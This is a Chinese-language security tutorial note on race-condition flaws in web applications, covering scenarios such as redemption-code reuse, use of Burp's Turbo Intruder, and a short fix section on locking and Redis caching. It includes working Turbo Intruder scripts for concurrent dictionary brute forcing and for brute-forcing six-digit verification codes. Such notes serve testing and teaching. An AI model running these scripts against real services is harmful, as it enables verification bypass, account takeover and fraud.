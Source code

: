 并发漏洞：在和数据库交互同一资源时，没有使用数据库事务，导致多个请求并发读取的某个数据的同一状态。(多线程条件竞争)
场景：关注、点赞、收藏、兑换码、积分兑换。
有20积分，同时兑换20积分和15积分的商品。
危害：无限制表插值，浪费资源，一码多用等。

^
## **turbo-intruder测试**
bp插件测并发漏洞，turbo-intruder插件。

<https://blog.csdn.net/m0_63421985/article/details/133899675>
<https://www.wangan.com/p/7fy7f444b121d0aa>
安装后右键请求包，扩展，就可以使用。
进入请求包页面，
在请求包中任意加变量%s：
如：在Host下方输入：x-req:%s
选择代码examples/race.py
代码中concurrentConnections值改为10。range(10)改为10。改成并发10
执行攻击代码。

^
查看并发结果，比较响应长度，是否有并发漏洞。

yakit:
![yakit并发](http://cdn.33129999.xyz/mk_img/yakit并发.jpg)
^
案例场景：
<https://blog.csdn.net/Gherbirthday0916/article/details/130639360>


^
## **并发爆破**
<https://sanshiok.com/archive/16.html>
对请求包参数有爆破变化的并发。

base.py 字典并发
```
def queueRequests(target, wordlists):
    # 初始化请求引擎
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,  # 并发连接数
                           requestsPerConnection=100,  # 每个连接的请求数
                           pipeline=False  # 管道模式
                           )

    # 逐行读取字典文件中的单词并构造请求
    for word in open('/usr/share/dict/words'):
        engine.queue(target.req, word.rstrip())  # 将请求添加到队列中

def handleResponse(req, interesting):
    # 处理从服务器接收到的响应
    # 如果响应状态码不是 404，则将请求添加到表中
    if req.status != 404:
        table.add(req)
```


%s爆破6位数验证码
```
from itertools import product


def brute_veify_code(target, engine, length):
    pattern = '1234567890'  # 用于生成字典的迭代对像

    for i in list(product(pattern, repeat=length)):  # product()接收多个迭代对像，然后生成一个笛卡尔积，repeat参数代表重复迭代对象次数。

        code = ''.join(i)

        engine.queue(target.req, code)


def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,  # 指定目标的地址

                           concurrentConnections=30,  # 与服务器建立30条连接

                           requestsPerConnection=100,  # 每条连接同时发送100个请求

                           pipeline=True  # 开启管道(HTTP Pipelining)模式

                           )

    brute_veify_code(target, engine, 6)  # 根据验证码位数修改


def handleResponse(req, interesting):
    if 'error' not in req.response:  # 对response进行操作，不含有“error”的添加入表中
        table.add(req)
```



^
## **并发修复**
用锁
业务场景：在高并发环境下用户频繁的给某一篇文章点赞，而点赞之后需要将点赞数更新至数据库中，这样就可能严重影响数据库的性能，甚至会导致数据的宕机。 设计思路：将文章的点赞信息全部缓存在redis的set类型的数据结构中，读的时候直接从redis中返回点赞数据，然后使用Quartz每隔两个小时将Redis的数据同步至MySQL中，保证Redis和MySQL的数据一致性。


